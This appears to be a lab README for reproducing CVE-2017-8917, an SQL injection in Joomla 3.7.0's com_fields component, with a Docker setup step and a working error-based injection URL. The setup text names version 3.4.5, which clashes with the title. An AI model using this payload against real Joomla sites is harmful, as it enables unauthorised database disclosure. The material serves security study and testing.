 # Joomla 3.7.0 com_fields SQL Injection Vulnerability (CVE-2017-8917)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An SQL injection vulnerability is caused by a new component, com_fields, which was introduced in version 3.7.

References:

- <https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html>
- <https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html>

## Vulnerable environment

Executing following command to start a Joomla 3.4.5:

```
docker-compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

Visit following link directly to reproduce the SQL injection attack:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

![](1.png)
